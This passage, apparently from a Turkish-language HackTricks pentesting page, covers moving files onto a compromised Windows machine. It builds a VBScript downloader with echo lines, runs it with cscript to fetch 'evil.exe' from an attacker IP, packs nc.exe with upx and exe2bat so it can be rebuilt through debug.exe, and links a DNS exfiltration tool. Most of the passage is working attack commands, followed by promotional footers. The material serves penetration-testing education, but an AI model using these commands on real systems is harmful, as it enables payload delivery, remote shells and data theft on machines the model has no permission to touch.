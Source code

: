 ```bash
echo If http Is Nothing Then Set http =CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

```bash
cscript wget.vbs http://10.11.0.5/evil.exe evil.exe
```
## Debug.exe

`debug.exe` programı, sadece ikili dosyaların incelenmesine izin vermekle kalmaz, aynı zamanda onları hex formatından yeniden oluşturma yeteneğine de sahiptir. Bu, bir ikili dosyanın hex formatını sağlayarak `debug.exe`nin ikili dosyayı oluşturabilmesi anlamına gelir. Bununla birlikte, `debug.exe`nin **64 kb boyutuna kadar olan dosyaları birleştirme sınırlaması** olduğunu unutmamak önemlidir.
```bash
# Reduce the size
upx -9 nc.exe
wine exe2bat.exe nc.exe nc.txt
```
Ardından metni windows-shell'e kopyalayıp nc.exe adında bir dosya oluşturulacak.

* [https://chryzsh.gitbooks.io/pentestbook/content/transfering_files_to_windows.html](https://chryzsh.gitbooks.io/pentestbook/content/transfering_files_to_windows.html)

## DNS

* [https://github.com/62726164/dns-exfil](https://github.com/62726164/dns-exfil)

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

En önemli güvenlik açıklarını bulun, böylece daha hızlı düzeltebilirsiniz. Intruder saldırı yüzeyinizi takip eder, proaktif tehdit taramaları yapar, API'lerden web uygulamalarına ve bulut sistemlerine kadar tüm teknoloji yığınınızda sorunları bulur. [**Ücretsiz deneyin**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) bugün.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}


<details><summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary></details>
